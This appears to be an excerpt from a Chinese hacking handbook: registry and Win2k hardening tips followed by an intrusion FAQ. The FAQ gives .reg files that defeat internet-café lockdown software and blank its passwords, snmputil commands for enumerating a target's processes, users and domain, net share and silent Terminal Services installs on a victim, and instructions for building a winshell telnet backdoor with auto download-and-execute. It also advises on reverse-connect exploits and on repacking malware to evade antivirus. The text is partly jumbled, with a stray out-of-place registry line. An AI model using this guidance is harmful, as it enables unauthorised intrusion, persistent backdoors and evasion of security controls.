

图23

😮 怎么通过注册表查 Windows 打过的补丁？

🙂 注册表位置如下：  
`HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Hotfix`

注意，在这下面看到的并不是大家想象的 SP1、SP2 或 SP3 等等，而是标明了 HotFix（图24）。



图24

从图中看出，我这里的 HotFix 为 `Q147222`。如果想知道是哪个补丁包的话，还需要到微软站点上查一下相关资料。当然，在微软一些漏洞公布资料中也会有，因为在漏洞公布资料中都会有解决办法，而解决办法中很多都会提供 HotFix 编号。

> **小提示**  
> 关于 Microsoft 的 HotFix 和 Service Pack。HotFix 被称为热修复包，而 Service Pack 就是大家平时常说的 SP。通常在发布漏洞时，都是先发布 HotFix 以解决当前漏洞；而当 HotFix 到达一定数量时，微软就会将其打包，成为我们看到的 Service Pack。

大家在入侵的时候，如果想知道对方所打的补丁，可以到注册表那个位置进行查找，会看到名为 `Qxxxxxx` 这种形式的 HotFix。这时候，到微软站点上，或者找个搜索引擎（Google 就是最好的了）搜索 `Qxxxxxx`，然后你将得到一堆搜索结果……


Google 没有坏掉的话，出来的结果应该是微软的安全公告。从公告中你就可以知道这个 HotFix 所修复的漏洞是什么。有的公告中还会写出该 HotFix 属于哪个 SP 补丁包。这样，根据漏洞或直接根据其给出的信息，就可以判断对方所打的补丁了。

数据：0=停用，1=启用。值名：`FullPrivilegeAuditing`。含义：对备份和还原权限的使用进行审计。类型：`REG_BINARY`。

## 注册表附录部分

#### 一、组策略安全选项对应注册表项汇总

组策略这个好东西大家都在用了吧？其实，组策略中的一些策略和注册表中都是有对应关系的，在这里一一列出，希望对喜欢使用组策略的朋友有些用。

在组策略中的位置：计算机设置 -> Windows 设置 -> 安全设置 -> 本地策略 -> 安全选项。  
以下是在注册表中的位置：

```
[MACHINE\System\CurrentControlSet\Control\Lsa]
```

- 值名：`AuditBaseObjects`  
  含义：对全局系统对象的访问进行审计  
  类型：`REG_DWORD`  
  数据：0=停用，1=启用

- 值名：`CrashOnAuditFail`  
  含义：如果无法记录安全审计则立即关闭系统  
  类型：`REG_DWORD`

- 值名：`LmCompatibilityLevel`  
  含义：LAN Manager 身份验证级别  
  类型：`REG_DWORD`  
  数据：0=发送 LM & NTLM 响应；1=发送 LM & NTLM（若协商则使用 NTLMv2 安全）；2=仅发送 NTLM 响应；3=仅发送 NTLMv2 响应；4=仅发送 NTLMv2 响应并拒绝 LM；5=仅发送 NTLMv2 响应并拒绝 LM & NTLM

- 值名：`RestrictAnonymous`  
  含义：对匿名连接的额外限制（通常用于限制 IPC$ 空连接）  
  类型：`REG_DWORD`  
  数据：0=无，依赖于默认许可权限；1=不允许枚举 SAM 账号和共享；2=没有显式匿名权限就无法访问

- 值名：`SubmitControl`  
  含义：允许服务器操作员计划任务（仅用于域控制器）  
  类型：`REG_DWORD`  
  数据：0=停用，1=启用


## [MACHINE\\System\\CurrentControlSet\\Control\\Print\\Providers\\LanMan Print Services\\Servers]

- 值名：AddPrinterDrivers  
  含义：防止用户安装打印机驱动程序  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

## [MACHINE\\System\\CurrentControlSet\\Control\\Session Manager\\Memory Management]

- 值名：ClearPageFileAtShutdown  
  含义：在关机时清理虚拟内存页面交换文件  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

## [MACHINE\\System\\CurrentControlSet\\Control\\Session Manager]

- 值名：ProtectionMode  
  含义：增强全局系统对象的默认权限（例如 Symbolic Links）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

## [MACHINE\\System\\CurrentControlSet\\Services\\LanmanServer\\Parameters]

- 值名：EnableSecuritySignature  
  含义：对服务器通信进行数字签名（如果可能）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：RequireSecuritySignature  
  含义：对服务器通信进行数字签名（总是）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：EnableForcedLogOff  
  含义：当登录时间用完时自动注销用户（本地）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：AutoDisconnect  
  含义：在断开会话前所需的空闲时间  
  类型：REG_DWORD  
  数据：分钟数

## [MACHINE\\System\\CurrentControlSet\\Services\\LanmanWorkstation\\Parameters]

- 值名：EnableSecuritySignature  
  含义：对客户端通信进行数字签名（如果可能）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：RequireSecuritySignature  
  含义：对客户端通信进行数字签名（总是）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：EnablePlainTextPassword  
  含义：发送未加密的密码以连接到第三方 SMB 服务器  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

## [MACHINE\\System\\CurrentControlSet\\Services\\Netlogon\\Parameters]

- 值名：DisablePasswordChange  
  含义：防止计算机帐户密码的系统维护  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：SignSecureChannel  
  含义：安全通道：对安全通道数据进行数字签名（如果可能）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：SealSecureChannel  
  含义：安全通道：对安全通道数据进行数字加密（如果可能）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：RequireSignOrSeal  
  含义：安全通道：对安全通道数据进行数字加密或签名（总是）  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：RequireStrongKey  
  含义：安全通道：需要强（Windows 2000 或以上版本）会话密钥  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

## [MACHINE\\Software\\Microsoft\\Driver Signing]

- 值名：Policy  
  含义：未签名驱动程序的安装操作  
  类型：REG_BINARY  
  数据：0 = 默认安装，1 = 允许安装但发出警告，2 = 禁止安装

## [MACHINE\\Software\\Microsoft\\Non-Driver Signing]

- 值名：Policy  
  含义：未签名非驱动程序的安装操作  
  类型：REG_BINARY  
  数据：0 = 默认安装，1 = 允许安装但发出警告，2 = 禁止安装

## [MACHINE\\Software\\Microsoft\\Windows\\CurrentVersion\\Policies\\System]

- 值名：DisableCAD  
  含义：禁用按 Ctrl+Alt+Del 进行登录的设置  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：DontDisplayLastUserName  
  含义：登录屏幕上不要显示上次登录的用户名  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：LegalNoticeCaption  
  含义：用户试图登录时消息标题  
  类型：REG_SZ  
  数据：标题文本

- 值名：LegalNoticeText  
  含义：用户试图登录时消息文字  
  类型：REG_SZ  
  数据：消息文字

- 值名：ShutdownWithoutLogon  
  含义：允许在未登录前关机  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

## [MACHINE\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Setup\\RecoveryConsole]

- 值名：SecurityLevel  
  含义：故障恢复控制台：允许自动系统管理级登录  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

- 值名：SetCommand  
  含义：故障恢复控制台：允许对所有驱动器和文件夹进行软盘复制和访问  
  类型：REG_DWORD  
  数据：0 = 停用，1 = 启用

## [MACHINE\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon]

- 值名：AllocateCDRoms  
  含义：只有本地登录的用户才能访问 CD-ROM  
  类型：REG_SZ  
  数据：0 = 停用，1 = 启用

- 值名：AllocateDASD  
  含义：允许弹出可移动 NTFS 媒体  
  类型：REG_SZ  
  数据：0 = Administrators，1 = Administrators 和 Power Users，2 = Administrators 和 Interactive Users

- 值名：AllocateFloppies  
  含义：只有本地登录的用户才能访问软盘  
  类型：REG_SZ  
  数据：0 = 停用，1 = 启用

- 值名：CachedLogonsCount  
  含义：可被缓冲保存的前次登录个数（在域控制器不可用的情况下）  
  类型：REG_SZ  
  数据：次数，如 10 次

- 值名：PasswordExpiryWarning  
  含义：在密码到期前提示用户更改密码  
  类型：REG_DWORD  
  数据：天数，缺省是 14 天

- 值名：ScRemoveOption  
  含义：智能卡移除操作  
  类型：REG_SZ  
  数据：0 = 无操作，1 = 锁定工作站，2 = 强制注销

## 二、修改注册表来加强 Win2k 的安全性

### 1．开机出现屏保

首先给计算机设置一个屏幕保护动画，而且加上一个密码，然后来到这个位置：

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

在下面建立一个字符串值，其数据则为你所设置的屏幕保护的路径，这样一开机便进入屏幕保护状态，而且是加密的。

### 2．防止 ICMP 重定向报文的攻击

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

EnableICMPRedirects（类型为 DWORD），设置值为 0。这样一来，Win2k 不会响应任何 ICMP 重定向报文。

### 3．禁止响应 ICMP 路由通告报文

“ICMP 路由公告”功能可造成他人计算机的网络连接异常、数据被窃听、计算机被用于流量攻击等严重后果，通过以下方法来禁止掉它。

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters\Interfaces\interface`

DWORD 值，键值为 PerformRouterDiscovery，设置其值为 0。

### 4．防止 SYN 洪水攻击

大家都很熟悉的一种 DoS 攻击，一定要防御啊。

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

DWORD 值，键值为 SynAttackProtect，设置其值为 2。

### 5．不支持 IGMP 协议

IGMP 是一个新发展起来的协议，现在很多厂商都在大力发展 IGMP，但是，由于它的不完善，所以也会带来一些安全问题，如果没有特殊情况的话，不支持它就是最安全的了，方法如下：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

DWORD 值，键值为 IGMPLevel，设置其值为 0。

### 6．禁止死网关监测技术

如果你设置了多个网关，那么你的机器在处理多个连接有困难时，就会自动改用备份网关。有些情况下，可能会带来负面的影响，建议去掉。

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

DWORD 值，键值为 EnableDeadGWDetect，设置其值为 0。

### 7．不支持路由功能

Win2k Server 以上版本有路由功能，开着它干什么？这不是更方便给人家做跳板了么，关掉：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

DWORD 值，键值为 `IPEnableRouter`，设置其值为 `0`。

### 8．修改注册表来过滤 IP

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\Tcpip\Parameters`

右边窗口中修改双字节值 `EnableSecurityFilters` 的值为 `1`。

### 9．禁用 IE 的“Internet 选项”中的高级项

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel`

下面新建立一个 DWORD 值 `AdvancedTab` 并设置为 `1`。

### 10．禁止更改 IE 默认的检查

`HKEY_CURRENT_USER\Software\Policies\Microsoft\Internet Explorer\Control Panel`

新建一个 DWORD 值 `ProgramsTab`，设置其值为 `1`。

### 11．局域网中自动断开时间

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanmanServer\Parameters`

新建一个 DWORD 值，名为 `Autodisconnect`，设其值为分钟数就可以了。

### 12．禁用 reg 文件

`HKEY_LOCAL_MACHINE\Software\CLASSES\.reg`

修改右边的默认值为 `txtfile`。

### 13．Win2k 死机后自动重启

`HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\CrashControl`

修改右边的 `AutoReboot` 的值为 `1`。

### 14．减少 TIME_WAIT 状态的等待时间

TIME_WAIT 就是表示，曾经有一个主机与你的主机建立连接，但中途意外中断，如果这样的话，被访问主机会自动将该连接标为 TIME_WAIT 状态位，并且，该状态位会保持四分钟来等待这台主机的再次连接。

试想一下，如果一台主机以这种方法，伪装成 N 多台甚至 N+1 多台（啊，多了一台，好可怕）来与你的主机建立连接然后再中断，如此反复，你的所有连接都为这些不存在的主机打开了 TIME_WAIT 状态，完！！！你也就不用上网了，就只能等四分钟过去后这些状态恢复，但是，如果对方反复攻击的话（好狠毒！），呵呵，彻底挂了！！！所以，我们要把 TIME_WAIT 的等待时间改一改才好，修改方法到注册表下面的位置：

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

下面，修改 DWORD 值 `TcpTimedWaitDelay`，如果没有的话自己建立。

新建一个，记住，改为十进制来查看，然后修改值为 30，这是最低的值了（最高值为 300），只等待二十秒。

### 15．启用网卡上的安全过滤

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

DWORD 值 EnableSecurityFilters，设置其值为 1。

### 16．最大的 TCP 连接数

`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\Tcpip\Parameters`

还是 DWORD 值 TcpNumConnections，至于设置为多少，就看自己的需要了。

我的注册表被改了，怎么样才能把它给恢复呀？

如果你的系统是 Windows 9x/ME 的，启动后按 F8 直接进入 DOS 模式，输入“scanreg/restore”可以选择恢复，选择出问题前的日期就可以了。对于 Windows 2000/XP 系统，一般在启动计算机看到“正在启动 2000/XP”的信息时，按 F8 键，然后在出现的界面中选择“最后一次正确的配置”，然后回车，启动系统，注册表将被还原到上次成功启动计算机时候的状态。

如果我的系统里中了木马，但是我已经把木马的启动项给删除了，它还会起作用吗？

现在的木马通常都会感染一些其他的程序，这样的话除非你把所有感染的文件找出来删除掉，否则你就算是删除了启动项里的程序，只要你运行了别的感染了木马的程序，木马还会继续运行。

我的电脑安装的是 Windows 2000 服务器版，现在不能正常关机。当选择“开始”→“关机”后，系统重新启动，如何解决？另外，我在修改注册表时，改过的某项键值总在系统重启后自动修改回以前的状态，为什么会这样？

你的电脑不能正常关机是因为高级电源管理没有设置好。方法是从“控制面板”中启动“电源选项”，把“高级电源管理”选项的“启用高级电源支持”勾去。Windows 2000 有一定的保护机制，如果因为你修改注册表而出现故障的话，系统会自动使用最后一次正常启动时的注册表来代替已经出故障的注册表，因此部分键值自动恢复很正常。

为什么我在网吧下载的时候，会出现一个对话框写着“当前安全程序不能下载”，这个该怎么办呀？

有的网吧安装过一些网吧管理软件，对下载进行了限制。因为各种网吧管理软件的使用方法不同，所以破解方法也不一样。如果只是想下载的话可以使用以下方法：同时按住键盘上的“WIN”键（微软小旗的那个键）和“D”键，就会刷新桌面。在美萍下的桌面实际上是美萍指定的一个目录，而原桌面则被隐藏了，刷新是对原来桌面的刷新，只要你不切换其它窗口，“我的电脑”等将会一直存在于桌面之上。你要做的是：打开“我的电脑”，然后再点“向上”，就可以把桌面以窗口的形式打开了（因为硬盘是被屏蔽掉的，当我们打开“我的电脑”时将什么都看不见），此时你要做的是新建一个文本文档输入这么几行：

```reg
REGEDIT4

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer]
"NoDrives"=dword:00000000
```

再另存为随便一个 REG 文件就可以了，之后你要做的就是导入它（理解为运行它也可以）。等你再次开机时打开“我的电脑”就会看见那可爱的 C 盘、D 盘什么的了！当然如果你不想看见美萍也可以，只要输入如下内容并存为 REG 文件就可以了：

```reg
REGEDIT4

[HKEY_LOCAL_MACHINE\Software\Mpsoft\Smenu]
"exitpassword"=""
"setuppassword"=""
"quitpassword"=""
```

继续导入它，重新启动后就可以放心大胆地退出美萍了，此时它的密码可是什么都没有的。

Windows 2000 下有没有 msconfig 呀，是改成其他的名字了吗？

很遗憾，在 Windows 2000 系统中并没有 msconfig，不过，我们可以把 Windows XP 系统中的 msconfig 文件复制到 Windows 2000 系统的 winnt/system32 目录下，点击数次后熟悉的 msconfig 菜单就会出来了。

我在每次上网时都在天网防火墙中发现一直有一个“system”在连接 137、138 和 139 端口，该如何才能解决这个问题？

这是系统自身开启的端口，主要是用于 NetBIOS 共享，来实现文件和打印机的网络共享的，网上邻居也是通过它来实现的，若你确定不需要共享的话，删除 netbeui 协议即可关闭这些端口。一旦删除也将无法使用网络邻居和网络打印，删除方法如下：运行“开始”->“运行”，输入“regedit.exe”，按照下面的顺序找到：`\HKEY_LOCAL_MACHINE\System\CurrentControlSet\Service\VxD\VNETBIOS` 的串，删除“VNETBIOS”项即可。当然，若你还打算将来恢复的话，建议最好把里面的内容记录下来，尤其是各项的类型，当需要的时候手工建立。

## 第六章

## 黑客入侵常见问题

### 安全篇

我是一个刚学习网络安全的爱好者，在许多网站上看到过许多教程，像 ida&idq、webdav、rpcdcom、ms04-011 的远程攻击都有，看那些作者写得好像很轻松，我照着教程上写的去做，可是为什么就不能成功呢？

对于刚学习网络安全的新手来说，这是一个一直困扰着他们的问题。其实网络安全，特别是安全漏洞，是一个时效性很强的东西。新漏洞几乎每天都被发现、被公布，而同时，相应的安全补丁及安全修复方法也会被公布。在新漏洞刚被公布时，针对该漏洞的攻击成功率是最高的；随着越来越多的人安装上了补丁程序，或是使用别的方法修复了漏洞，或是升级到了新的版本，漏洞的利用率就会下降，直至被当成历史，送进博物馆。

随着近几年 Internet 上黑客攻击事件及病毒攻击事件的增多，公众对于网络安全的意识都普遍得到了提高。举个例子：2000 年被公布的 UNICODE 漏洞，直到 2002 年都还时有发现；2001 年被公布的 ida&idq 漏洞，至 2003 年初，也都是一个被广泛使用的攻击方法；而 2003 年春被公布的 webdav 漏洞，在 2003 年夏时，就已经很少有人提及了；2003 年 8 月的 rpcdcom 漏洞，更是因为一周后利用该漏洞的“冲击波”病毒的流行，更早地就成为历史。

对于网络来说，这是一件好事，但是对于热衷于远程攻击的新手来说，这却是一件令人痛苦的事。

当我使用 X-scan 在进行扫描的时候，怎么什么也没有扫描到呀，可对方的 web 服务明明是开放的呀？

这应当是扫描方法选择上的问题。让我们来看看 X-scan 的“扫描参数”中的“高级设置”项，就会看到在下方的“其他设置”中一共有三个扫描选项，分别为“跳过没有响应的主机”“跳过没有检测到开放端口的主机”“无条件扫描”。而默认选择的是“跳过没有响应的主机”。这样，当扫描程序与目标主机建立连接，而因为某些原因无法成功时（比如某些扫描程序会使用 ping 来判断与对方主机是否可以建立连接，而如果此时该台主机有防火墙禁止了 ping 的话，就不会连接成功），扫描程序就会认为远程主机为非存活主机，而跳过该台主机，这样当然是什么也检测不到了。但是事实上，该台主机却是完全可以访问的。针对这种情况，我们可以选择“无条件扫描”方式，虽然检测的时间会比较长，但是检测的准确性却也比较高。对于一台特定的主机进行检测时，我们建议使用该选项。事实上，除了 X-scan 外，在使用其他的扫描程序比如 superscan 时，也存在这种情况。

我对远程主机进行溢出的时候，已经溢出成功了，但是使用 nc 连接溢出后绑定 shell 的端口时，总是过了一会儿提示连接不成功？

如果你确认已经溢出成功了的话，那么连接不上的原因应该是绑定 shell 的端口被对方系统中的防火墙给拦截了。为了突破防火墙的拦截，建议尽可能使用有反向连接功能的溢出程序，这会大大提高对远程电脑的溢出成功率。

ping 不到，也 tracert 不到！用 nbtstat 却可以显示一些信息，为什么？

tracert 命令和 ping 命令所使用的协议都是 ICMP。而 nbtstat 命令则不同，这个命令是通过对方的 NETBIOS 端口来获得对方主机信息的，也就是说是基于 NETBIOS 所使用的协议。而 NETBIOS 端口开放后，该端口的通信分别使用 UDP 和 TCP 协议。如果对方防火墙只对 ICMP 协议做了禁止的话，通过该命令获得信息是很正常的。

什么是字典？什么是字典文件？

一个字典文件中，会包含许多用户名或用户密码，并且按照一定的规律排列在文件中（一般的规律是一个密码或一个用户名占一行），这样是为了方便软件从字典中读取用户名或密码。一般地，入侵者使用一个包含了很多有可能使用的用户名和有可能使用的密码的两个字典，再加上一些配合字典使用的工具，对一些需要用户名和密码的登录系统（例如 Win2000 的 ipc$、电子信箱、FTP 登录、telnet 登录、ssh 登录等）进行字典式攻击，以达到猜解用户名和密码的目的，这也就是俗称的远程猜解（破解）账号。

知道了 SNMP 密码，该如何利用？

在 Win2k 的 Support Tools 中有一个工具叫 SNMP Query Utility（图1），使用这个工具可以利用 SNMP 来查询一些机器信息。不过，经过我的多次实验发现，这个工具并不太好用，所以建议使用 Win2k 的 Resource Kit 工具箱里的工具 SNMPUTIL（图2）。

命令格式：

`snmputil [get|getnext|walk] agent oid`

其中的 get/getnext/walk 可以看作是获得信息的三种方法。agent 则是获得的 SNMP 密码。

oid = Object Identifier，物件识别代码。

例如，我使用命令：

`snmputil walk 127.0.0.1 python .1.3.6.1.4.1.77.1.2.25.1.1`

这个命令就可以查询到我本机上的用户列表（图3）。

### 经验 & 技巧：SNMP 的利用

很多朋友都在学会了如何使用这个漏洞后，又产生了另外一个疑问，就是怎么利用获得的这些信息。如果只是想对对方进行简单的入侵，或是利用某个漏洞的话，其实这些信息的用处确实不是很大；但是如果是作为一次有针对性的、有目的性的入侵，这些信息就有很大价值了。接下来我就来分析一下：

`snmputil walk 对方ip public .1.3.6.1.2.1.25.4.2.1.2`

这样可以列出系统进程（图4）。

经常有朋友反映，当他刚上传完软件后，再去运行，系统就报告没有此软件（或是拒绝访问）。这时候，为什么不用这个命令来查看一下系统进程呢？看对方是否开放了杀毒软件之类的东西。另外，在你离开对方主机之前，也来看看对方的进程，看看有没有运行着什么可以记录你在入侵过程中的一举一动的软件。

`snmputil walk 对方ip public .1.3.6.1.4.1.77.1.2.25.1.1`

这个命令用来列系统用户列表（如前面的图3）。这个命令实际作用不是很大，最多就是列出用户，然后可以针对个别用户名进行暴力猜解。

`snmputil get 对方ip public .1.3.6.1.4.1.77.1.4.1.0`

可以列出域名（图5）。

如果对方真的属于一个域的话，就可以确定更大的攻击范围了，而不用把目标死死地集中在一台主机上。但是对于一般的初级攻击者来说意义不大。

`snmputil walk 对方ip public .1.3.6.1.2.1.1`

列出对方的系统信息（图6）。

也许会获得很多你看不懂的东西，但是最基本的东西——系统版本和对方主机的机器名是可以得到的。以上就是四条常用命令。

看来 SNMP 这个东西挺危险，怎么防御啊？

方法很简单：

- 第一，不安装 SNMP（但如果要使用 SNMP，这个办法就不行了）。
- 第二，修改默认的 public 团体。

依次打开“控制面板”→“管理工具”→“服务”→右键“SNMP Service”→“属性”→“安全”→“编辑”（图7），在这里可以修改默认的 public。例中，我修改 public 为 python。

但是有一点要注意：除了修改这里之外，还要修改“陷阱”选项卡中的“社区名称”，这里的名称要和刚才修改的一样，例中就为 python（图8）。然后再正确添加地址，这样才能正常发送陷阱消息。

admin$ 这个共享是什么？

admin$ 也是一个远程管理共享，是 Win2k 系统默认开放的。共享路径是 `C:\WINNT`（假设 Win2k 安装在 C 盘）。用 `net share` 命令就可以看到（图9）。

这样一来，就可以使用命令把对方硬盘的一个分区或文件共享，命令如下：

`net share c=c:\winnt\system`

（图10）

这个命令就共享了对方的 system 文件夹，共享名为 C。这样的话，就可以直接使用 `\\ip\c` 的格式来访问对方的 `C:\WINNT\system` 文件夹了。如果想要删除这个共享，直接 `net share c /del` 就可以了（图11）。

怎样在命令提示符下安装 terminal service（终端服务）？

我们可以建立一个批处理文件（*.bat 文件），内容如下：

```bat
echo [Components] > c:\python
echo TSEnable = on >> c:\python
sysocmgr /i:c:\winnt\inf\sysoc.inf /u:c:\python /q /r
```

这里假设 NT 安装目录为 `C:\winnt`。参数 q 为重新启动，r 为不立刻重新启动，`c:\python` 可任取。这样，执行这个 bat 文件后，系统就会自动按照设定安装终端服务了。不过，对方系统必须为 Win2000 的服务器版本。

我不想使用 Win2k 的 telnet 服务，有没有其他 telnet 后门程序？

当然有，比如孤独剑客的 winshell，一个非常小巧的 telnet 后门程序。

### Winshell 的使用方法

下载的 winshell 是一个用来制作 telnet 后门程序的 GUI 界面工具（图12）。按照提示配置端口、密码以及服务名等，然后点“Make”按钮就可以完成。

完成后，会生成一个大小只有 5K 多一点的后门程序（图13）。同时，还会生成一个与后门程序名相同的 txt 文本文件，该文件中记录了配置状况（图14）。

能用 telnet 登录上去，怎么让硬盘共享，怎么下载文件？

telnet 到对方主机后，就像在本机上使用 DOS 环境一样来操作远程主机。

### Winshell 的自动下载功能

在 winshell 中，有这样两项：DownExec 和 AutoInstall。选中 DownExec 项后，你会发现 Url Address 和 Destination Filename 两项是可填写状态（图15）。

另外一项 AutoInstall，不用我说也可以看懂了吧，自动安装。想让对方怎么样，就看你自己了，写好地址选择正确后就……嘿嘿……

### 删除 winshell

找到 winshell 的 telnet 服务端是有必要的。另外，它还写入了注册表，这一点在 winshell 的制作界面中也有写到（图16）。

注册表位置为：

`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`

由于 winshell 的 telnet 服务端的服务名以及其在注册表中的键值名都是可改的，所以在这里就需要依靠自己的经验来判断了。

我使用的是 Windows2000 系统，有什么工具可以让我连接远程 UNIX/Linux 系统的 SSH 服务呀？

对于 UNIX/Linux 系统来说，安装后都有 SSH 的客户端连接程序；但是对于 Windows/2000/XP/2003 系统来说，默认却没有这样的工具。通常我们在 Windows/2000/XP/2003 系统下使用的是 putty（图17）。

putty 支持 Raw、Telnet、Rlogin、SSH 连接。我们选择 SSH，上边的连接端口会自动更换成 22。在“Host Name (or IP address)”栏中输入要连接的 IP 地址，回车，我们会看到一个警告窗口（图18），不要理它，点击“是”，屏幕上就会出现一个黑色的登录窗口，输入用户名及口令（图19）。如果一切都正确的话，就可以成功登录访问了。

在许多计算机专业的书和杂志上经常看到关于软件“脱壳”的文章，脱壳有什么用呀？

有许多黑客类程序为了防止别人的研究，也为了更好地对抗杀毒软件，都会被加壳。而倘若该程序已经被杀毒软件查杀了，那么为了给它换个新壳以使其可重新对抗杀毒软件，就需要先把旧壳脱掉。另外，还有一些商业或非商业程序，为了防止别人破解，也会被加壳，而要想破解、研究的话，就必须脱掉程序所加的壳。

如何使用 tftpd32.exe 来进行文件的上传、下载？

虽然大多数情况下，使用 ipc$ 上传、下载文件更方便也更简单，但是随着公众网络安全意识的提高，ipc$ 已经被越来越多地禁止了。在这种前提下，使用 tftpd32.exe 就成了一个有效的方法。

